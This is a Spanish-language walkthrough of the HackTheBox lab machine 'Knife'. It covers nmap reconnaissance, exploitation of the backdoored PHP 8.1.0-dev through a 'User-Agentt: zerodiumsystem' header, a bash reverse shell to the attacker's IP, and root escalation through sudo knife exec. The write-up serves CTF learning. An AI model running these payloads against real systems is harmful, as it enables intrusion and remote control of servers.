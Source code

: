 Knife es una máquina linux de nivel fácil, creada por [MrKN16H7](https://app.hackthebox.eu/users/98767), en la que vamos a explotar un bug de PHP para conseguir una RCE
y ejecutar un binario como root para convertirnos en él.

![imagen](https://user-images.githubusercontent.com/71317374/131216908-df335eaa-0496-43e5-bc76-2d77ec7be9f9.png)

Según los seres vivos que hay por HackTheBox, la máquina es así:

![imagen](https://user-images.githubusercontent.com/71317374/131216886-9c9c8b8e-6fef-4467-914f-d108e367b3d5.png)

Muy CTF(y es así)

1 - [Reconocimiento inicial](#recon)

2 - [Reconocimiento profundo](#deeprecon)

3 - [Explotación](#exploit)

4 - [Escalada de privilegios y flag](#privesc)

# [Reconocimiento inicial] {#recon}

```bash
# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds
```

### Pequeña explicación de los parámetros de nmap
* -p-: Escanea todos los puertos.
* --open: Solo muestra los que están abiertos.
* --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos. 
* -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el [Three-Way Handshake](https://networksigma.com/tcp-3-way-handshake/).
* -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
* -n: Deshabilita la resolución DNS
* -v: Muestra los puertos a medida que los descubre
* -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la [función extractPorts de s4vitar](https://pastebin.com/tYpwpauW)
* -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.

# [Reconocimiento profundo] {#deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

![imagen](https://user-images.githubusercontent.com/71317374/131220276-fec35a9e-4b46-4692-b37f-6d8bef6caf25.png)

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera `User-Agentt: zerodiumsystem("[comando]");` en la petición.

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header. 

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.

### Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 ### Explotación con BurpSuite
 
 Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando. 
 
 ### Conseguir una Reverse Shell
 
 Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:
 
 ```bash
 bash -c 'bash -i >& /dev/tcp/tuip/puertoEnElQueTienesNC 0>&1'
 ```
 Y la petición quedaría así:
 
 ```bash
 GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.49/443 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Yyyyyy estamos dentrooooooo :D

![imagen](https://user-images.githubusercontent.com/71317374/131221770-5691e50a-7486-48ef-819f-9549fd457f4e.png)

# Flag y Privesc {#privesc}

Ahora mismo, si por cualquier cosa hiciera Ctrl+C tendría que volver a enviarme la shell, cosa que nadie quiere, así que tendremos que hacer [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/)

Vale, ahora que tenemos una consola interactiva en el sistema, podríamos ir a ver la User Flag, ubicada en /home/james/user.txt:
```bash
james@knife:~$ cat user.txt | head -c 15;echo
cf42b739b6d4f75
```

Ahora que tenemos taambién la flag, habría que centrarse en la escalada de privilegios, si hacemos `sudo -l` para ver si podemos ejecutar algún comando o binario como otro usuario, obtenemos: 
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Entonces podemos ejecutar **knife** como root, si buscamos en [gtfobins](gtfobins.github.io) sobre este binario, vemos que es capaz de correr código Ruby, y que se puede usar para escalar privilegios.

>Sudo
>
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain >privileged access.
>
>    `sudo knife exec -E 'exec "/bin/sh"'`

Así que ejecutamos ese comando y...

![imagen](https://user-images.githubusercontent.com/71317374/131222071-b59c07d1-a759-4382-9576-569e603afcfe.png)

Yasta, somos root y podríamos irnos a /root a recoger nuestro premio por conseguir el root.

Ha sido una máquina en la que no ha habido que enumerar mucho, lo cual la hace más rápida. Me ha gustado como hay que ganar acceso a la máquina y la historia detrás del bug de PHP. Si te ha gustado puedes darme una estrellita al blog :)

Y recuerda, Metasploit siempre es la solución.
